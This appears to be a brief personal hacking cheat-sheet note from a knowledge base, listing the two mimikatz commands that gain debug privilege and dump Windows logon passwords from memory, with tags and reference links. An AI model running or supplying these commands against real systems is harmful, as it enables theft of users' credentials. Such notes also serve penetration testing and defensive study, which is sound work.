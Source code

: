 # mimikatz dump passwords
```
privilege::debug
sekurlsa::logonpasswords
```

# References
- [20221003151089](/zet/20221003151089/README.md) mimikatz
- ~/kb/hacking/windows/mimikatz.md

Tags:
    #assorted #hacking #windows #mimikatz

